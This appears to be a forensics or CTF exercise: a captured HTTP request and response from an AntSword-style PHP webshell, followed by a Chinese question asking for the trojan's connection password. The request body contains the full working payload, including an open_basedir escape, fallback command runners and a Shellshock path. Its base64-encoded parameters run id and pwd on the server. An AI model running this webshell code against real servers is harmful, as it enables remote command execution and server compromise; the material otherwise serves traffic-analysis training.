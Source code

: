 ```http
1=@ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);$oparr=preg_split(base64_decode("Lzt8Oi8="),$opdir);@array_push($oparr,$ocwd,sys_get_temp_dir());foreach($oparr as $item) {if(!@is_writable($item)){continue;};$tmdir=$item."/.d53e47c56e78";@mkdir($tmdir);if(!@file_exists($tmdir)){continue;}$tmdir=realpath($tmdir);@chdir($tmdir);@ini_set("open_basedir", "..");$cntarr=@preg_split("/\\\\|\//",$tmdir);for($i=0;$i<sizeof($cntarr);$i++){@chdir("..");};@ini_set("open_basedir","/");@rmdir($tmdir);break;};};;function asenc($out){return $out;};function asoutput(){$output=ob_get_contents();ob_end_clean();echo "2c"."3f5";echo @asenc($output);echo "20"."c49";}ob_start();try{$p=base64_decode(substr($_POST["ma569eedd00c3b"],2));$s=base64_decode(substr($_POST["ucc3f8650c92ac"],2));$envstr=@base64_decode(substr($_POST["e5d0dbe94954b3"],2));$d=dirname($_SERVER["SCRIPT_FILENAME"]);$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";if(substr($d,0,1)=="/"){@putenv("PATH=".getenv("PATH").":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");}else{@putenv("PATH=".getenv("PATH").";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");}if(!empty($envstr)){$envarr=explode("|||asline|||", $envstr);foreach($envarr as $v) {if (!empty($v)) {@putenv(str_replace("|||askey|||", "=", $v));}}}$r="{$p} {$c}";function fe($f){$d=explode(",",@ini_get("disable_functions"));if(empty($d)){$d=array();}else{$d=array_map('trim',array_map('strtolower',$d));}return(function_exists($f)&&is_callable($f)&&!in_array($f,$d));};function runshellshock($d, $c) {if (substr($d, 0, 1) == "/" && fe('putenv') && (fe('error_log') || fe('mail'))) {if (strstr(readlink("/bin/sh"), "bash") != FALSE) {$tmp = tempnam(sys_get_temp_dir(), 'as');putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");if (fe('error_log')) {error_log("a", 1);} else {mail("a@127.0.0.1", "", "", "-bv");}} else {return False;}$output = @file_get_contents($tmp);@unlink($tmp);if ($output != "") {print($output);return True;}}return False;};function runcmd($c){$ret=0;$d=dirname($_SERVER["SCRIPT_FILENAME"]);if(fe('system')){@system($c,$ret);}elseif(fe('passthru')){@passthru($c,$ret);}elseif(fe('shell_exec')){print(@shell_exec($c));}elseif(fe('exec')){@exec($c,$o,$ret);print(join("
",$o));}elseif(fe('popen')){$fp=@popen($c,'r');while(!@feof($fp)){print(@fgets($fp,2048));}@pclose($fp);}elseif(fe('proc_open')){$p = @proc_open($c, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);while(!@feof($io[1])){print(@fgets($io[1],2048));}while(!@feof($io[2])){print(@fgets($io[2],2048));}@fclose($io[1]);@fclose($io[2]);@proc_close($p);}elseif(fe('antsystem')){@antsystem($c);}elseif(runshellshock($d, $c)) {return $ret;}elseif(substr($d,0,1)!="/" && @class_exists("COM")){$w=new COM('WScript.shell');$e=$w->exec($c);$so=$e->StdOut();$ret.=$so->ReadAll();$se=$e->StdErr();$ret.=$se->ReadAll();print($ret);}else{$ret = 127;}return $ret;};$ret=@runcmd($r." 2>&1");print ($ret!=0)?"ret={$ret}":"";;}catch(Exception $e){echo "ERROR://".$e->getMessage();};asoutput();die();&e5d0dbe94954b3=SR&ma569eedd00c3b=38L2Jpbi9zaA==&ucc3f8650c92ac=AkY2QgIi92YXIvd3d3L2h0bWwiO2lkO2VjaG8gZTEyNGJjO3B3ZDtlY2hvIDQzNTIzHTTP/1.1 200 OK
Date: Fri, 04 Aug 2023 02:41:39 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 84
Connection: close
Content-Type: text/html; charset=UTF-8

2c3f5uid=33(www-data) gid=33(www-data) groups=33(www-data)
e124bc
/var/www/html
43523
20c49
```

## 一,木马的连接密码是多少

